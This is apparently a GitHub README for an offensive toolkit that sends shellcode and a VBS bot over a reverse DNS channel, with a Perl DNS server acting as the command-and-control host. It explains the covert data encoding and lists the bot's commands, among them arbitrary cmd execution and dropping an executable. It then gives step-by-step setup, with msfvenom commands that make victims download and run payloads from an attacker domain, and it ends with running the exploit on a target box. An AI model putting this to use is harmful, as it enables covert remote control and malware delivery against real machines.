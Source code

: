 # Reverse DNS payloads for Remote control
Reverse DNS payload for Metasploit: Download  Exec x86 shellcode. Also DNS Handler and VBS bot (working over DNS) as PoC included.

## Components

### dns_download_exec_svchost.rb

Metasploit payload: X86 download and exec via reverse DNS channel. Jut put this file into msf3 payload folder and then you could use it like that:

     mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le | sed -s 's/\%/\\/g'

DOMAIN - domain you should control (NS).

EXT - file extension

This payload are using getaddrinfo API function for getting data over DNS (to %temp% dir). This shellcode will work even on boxes without IPv6 assigned (my previos one - https://www.exploit-db.com/exploits/17326/ required IPv6 address asssigned, so in this, new version we do not need it!). 
In this new version resolved IPv6 addresses will be from reserved block. This shellcode uses IPv6 in ranges from ff00:: to ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

those IPv6 will be resolve even if no IPv6 address assigned to the interface (only linked). First byte should be ff, than second is control byte that tell us what block of data we have and flag "last block". All last 14 bytes of IPv6 - data as is (no encoding needed, like in TXT section). For one DNS response we could receive up to 17 IP addresses, so for one DNS request we could get 238 bytes of raw data.
 
 aaaa.a.dom.ws - first 238 bytes
 baaa.a.dom.ws - second 238 bytes
 caaa.a.dom.ws - ....
 ....
 abaa.a.dom.ws - ...
 cbaa.a.dom.ws - for example last peace of data (in this case we have flag of last pice in first 4 bits of second byte)
 
 Maximum size: up to 88 Mb (zzzz.dom.ws)
 Download Speed: ~ 4 Kb/sec
 Shellcode size: 833 bytes (no null bytes by default)
 
### bot.vbs
 
 PoC of agent on VBS that could use reverse DNS channel for recieveing commands. This prototype uses nslookup for resolving ipv4 addresses.
 As first action this agent will  try to register on C&C by using AD domain/workgroup name and current login, after that it will frequently requesting DNS  for getting commands to execute. If command will be received then result of execution will be sent back in base64 format. 
 
#### Commands
    exit                   - kill process with agent (wscript)
    sleep                  - sleep 30 seconds until next request
    download [part] [file] - download another file [part] - subdomain with file
                                                   [file] - local file name (to create)
                             Download speed here ~ 1 Kb/Sec
                             example: download b drop.exe
                             (will be converted into aaaa.b.dom.ws, baaa.b.dom.ws)
    [any other command]    - will run cmd /c [any other command]

    
This is juts PoC and prototype so we do not have here autorun and hiding features!

### revdns.pl

DNS handler that should be used as dom.ws name server. Works as agent C&C server and could support sessions (if we have more than one agent)
 and also contains egg-drop for shellode/or bot.vbs (up to 88Mb). Support both: bot.vbs and DNS shellcode. And it is designed to work as combo:
  
 1. Shellcode using this DNS downloading bot.vs and run it
 2. bot.vs using same DNS as C&C and could download next file (see revdns.pl)

P.S. This perl code based on my old ugly-coded-perl DNS server, so sorry for that 8)

Original(and old) preso about this project is here: [https://erpscan.com/wp-content/uploads/2012/06/dns-for-evil.pdf](CONFidence 2011 slides: DNS for EVIL)

## Example usage

1) Buy a domain name and host a revdns.pl. Let's say we have zlo.ws and host 11.11.11.11 (as our C&C server)

2) Configure revdns.pl (on 11.11.11.11) 

    @EGGs = ("bot.vbs","drop.exe")
    
So now it "stores" two drop files in a.zlo.ws and in b.zlo.ws

3) Configure revdns.pl 
  
        $DOMAIN = "zlo.ws";               
        $IPA = "11.11.11.11"; 

4) Configure bot.vbs (on 11.11.11.11)

        DOMAIN="zlo.ws" 
        
5) Put drop.exe (on 11.11.11.11) as any binary (better small 8))              
              
6) Run revdns.pl

7) Setup NS for zlo.ws to 11.11.11.11

8) Now we a read, let's generate shellocode

If you want shellcode download and exec bot.vbs
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le
        
If you want shellcode download and exec drop.exe
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=b.0x41.ws EXT=exe -f js_le
        
9) Run exploit with shellocde on target box, and then (if bot.vbs used) wait when BOT from the box will be connected to revdns.pl

10) Use interactive or auto mode of revdns.pl
